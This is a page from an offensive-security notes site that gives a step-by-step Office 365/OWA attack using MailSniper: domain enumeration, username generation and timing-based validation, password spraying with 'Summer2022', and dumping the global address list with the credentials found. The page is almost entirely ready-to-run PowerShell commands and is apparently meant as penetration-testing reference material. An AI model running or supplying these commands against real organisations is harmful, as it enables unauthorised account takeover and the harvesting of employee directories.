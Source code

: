 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Office_365
---
```



<span style="font-size: 35px; color:red"><b>Microsoft Office 365</b></span>
<span style="font-size: 25px;"><b>Password Spray</b></span>
- [MailSniper](https://github.com/dafthack/MailSniper)
- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
&nbsp;

---
&nbsp;
<span style="font-size: 25px;"><b>MailSniper.ps1</b></span>
&nbsp;
```powershell
import-module ./MailSniper.ps1
```
Enumerate the NETBios Domain Name:
```powershell
Invoke-DomainHarvestOWA -ExchHostname <hostname_OWA_without_https://>
```
Starting from a list of "Name Surname" (names.txt), create a list of permutations with [namemash.py](https://gist.github.com/superkojiman/11076951):
```powershell
namemash.py <names.txt> > <possible.txt>
```
Validate usernames through a time-based enumeration:
```powershell
Invoke-UsernameHarvestOWA -ExchHostname <hostname_OWA_without_https://> -Domain <domain> -UserList <possible.txt> -OutFile <valid.txt>
```
Password Spray OWA:
```powershell
Invoke-PasswordSprayOWA -ExchHostname <hostname_OWA_without_https://> -UserList <valid.txt> -Password Summer2022
```
Download global address list using working credentials found before:
```powershell
Get-GlobalAddressList -ExchHostname <hostname_OWA_without_https://> -UserName <domain\username> -Password Summer2022 -OutFile <list.txt>
```
